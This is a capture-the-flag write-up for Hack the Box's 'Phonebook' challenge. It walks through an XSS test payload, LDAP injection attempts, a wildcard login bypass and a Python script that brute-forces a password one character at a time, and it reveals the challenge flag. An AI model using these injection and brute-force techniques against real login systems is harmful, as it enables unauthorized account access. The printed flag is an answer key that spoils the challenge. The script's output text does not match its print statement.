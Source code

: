 # Writeup "Phonebook"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                                 </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/challenges/phonebook              </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-phonebook-discussion </td></tr>
   <tr><td><b> type       </b></td><td> challenge/__                                                 </td></tr>
   <tr><td><b> difficulty </b></td><td> easy                                                         </td></tr>
   <tr><td><b> startdate  </b></td><td> 2022-09-02                                                   </td></tr>
   <tr><td><b> enddate    </b></td><td> 2022-09-09                                                   </td></tr>
</table>

## Description

> Who is lucky enough to be included in the phonebook?

## Solution

The specified URL displays a login screen including a message by someone called "Reese": 

<p align="center">
   <img src="includes/phonebook-01.png" />
</p>

When we try to open the directory containing the included image, we discover a second page with a search field. The search field sends a POST request to the `/search` endpoint but we always receive a `403 Forbidden` response.

<p align="center">
   <img src="includes/phonebook-02.png" />
</p>

When we login, the website sends a POST request to the `/login` endpoint. Since we don't know the correct credentials, we are redirected to the original page with the additional parameter `message=Authentication failed`. This message is then displayed on the login page:

<p align="center">
   <img src="includes/phonebook-03.png" />
</p>

This means that there is a _cross site scripting_ (_"XSS"_) vulnerability on this page. Since the payload is inserted into the website using the `innerHTML` attribute, we cannot use a `<script>` tag. But we can use the following code to trigger the XSS without user interaction:

``` html
<img src="" onerror=alert(window.origin) />
```

<p align="center">
   <img src="includes/phonebook-04.png" />
</p>

After some testing however, this does not seem to help us so we look for a different approach. After reading several comments in the official discussion thread, we decide to try an injection attack in the login fields. Exploits for SQL or PHP like `Reese' #` or `Reese'; //` do not work; according to some comments, the technology behind the login seems to be LDAP. But LDAP injection strings like `Reese)(&)` only lead to a `500 Internal Server Error` response. At least, this seems to confirm that LDAP is used.

Since at this point we are stuck, we do a web search for writeups of the challenge[^1][^2]. This leads us to a frustratingly easy solution for this first step: Just use "`*`" for both username and password. This leads us to the same search page we discovered earlier, but this time we are authenticated and we can use the search function.

We are now able to search through the user database; however, this does not reveal any hints regarding the flag. Turning back to the writeups, we learn that the solution is to find the password of the user `Reese` through a bruteforce attack. This is made possible by the fact that we can use the wildcard character "`*`" for any part of the password. Therefore, we can guess one letter at a time. Flags at HTB always have the same pattern, so we try to log in using "`HTB{*}`" as password, which is successful. Using the following _Python_ script, we can iterate through all possible passwords:

``` python
import requests
import string

challenge_url = "http://139.59.174.34:31321"
login_endpoint = "/login"

def testPassword(password: str) -> bool:
   password = "HTB{" + password + "}"
   payload = {'username': 'reese', 'password': password}

   response = requests.post(url=challenge_url+login_endpoint, data=payload)
   url = response.url

   return (url.find("failed") < 0)

def main():
   chars = string.ascii_letters + string.digits + "_?!"
   password = ""
   char_index = 0
   
   while char_index < len(chars):
      if testPassword(password + chars[char_index] + "*"):
         password += chars[char_index]
         char_index = 0
         print("Scanning for password... Result so far:", password)
      else:
         char_index += 1
   
   print("Flag found!")

if __name__ == '__main__':
   main()
```

This results in the following console output:

``` bash
$ python3 exploit.py
Scanning... d
Scanning... d1
Scanning... d1r
Scanning... d1re
Scanning... d1rec
Scanning... d1rect
Scanning... d1recto
Scanning... d1rector
Scanning... d1rectory
Scanning... d1rectory_
Scanning... d1rectory_h
Scanning... d1rectory_h4
Scanning... d1rectory_h4x
Scanning... d1rectory_h4xx
Scanning... d1rectory_h4xx0
Scanning... d1rectory_h4xx0r
Scanning... d1rectory_h4xx0r_
Scanning... d1rectory_h4xx0r_i
Scanning... d1rectory_h4xx0r_is
Scanning... d1rectory_h4xx0r_is_
Scanning... d1rectory_h4xx0r_is_k
Scanning... d1rectory_h4xx0r_is_k0
Scanning... d1rectory_h4xx0r_is_k00
Scanning... d1rectory_h4xx0r_is_k00l
Flag found!
```

Therefore, the flag is:

```
HTB{d1rectory_h4xx0r_is_k00l}
```

### Sources

[^1]: https://skelter.hashnode.dev/htb-phonebook-writeup
[^2]: https://shakuganz.com/2021/07/04/hackthebox-phonebook-write-up/
[^3]: 
